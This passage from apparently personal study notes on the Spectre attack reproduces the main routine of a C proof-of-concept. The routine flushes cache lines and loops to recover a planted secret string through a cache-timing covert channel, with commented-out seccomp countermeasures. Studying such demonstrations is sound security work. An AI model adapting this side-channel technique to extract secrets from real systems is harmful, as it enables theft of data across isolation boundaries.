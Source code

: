 ```C

// countermeasure 2:
  // prctl(PR_SET_NO_NEW_PRIVS, 1);
  // prctl(PR_SET_DUMPABLE, 0);
  // scmp_filter_ctx ctx;
  // ctx = seccomp_init(SCMP_ACT_ALLOW);
  // seccomp_load(ctx);
  //

  char *_mem = malloc(pagesize * (256 + 4));
  // page aligned
  mem = (char *)(((size_t)_mem & ~(pagesize-1)) + pagesize * 2);
  // initialize memory
  memset(mem, 0, pagesize * 256);

  // store secret
  strcpy(data, SECRET);

  // Flush our shared memory
  flush_shared_memory();

  // nothing leaked so far
  char leaked[sizeof(SECRET) + 1];
  memset(leaked, ' ', sizeof(leaked));
  leaked[sizeof(SECRET)] = 0;

  int j = 0;
  while(1) {
    // for every byte in the string
    j = (j + 1) % sizeof(SECRET);

    // overwrite value with X, then access
    access_array(j);

    mfence(); // avoid speculation
    // Recover data from covert channel
    cache_decode_pretty(leaked, j);

    if(!strncmp(leaked, SECRET, sizeof(SECRET) - 1))
      break;

    sched_yield();
  }
  printf("\n\n[\x1b[32m>\x1b[0m] Done\n");

  return 0;
}

```

![image-20250320165908683](D:\seu-master-main\HardwareBug\笔记\spectre-attack.assets\image-20250320165908683.png)
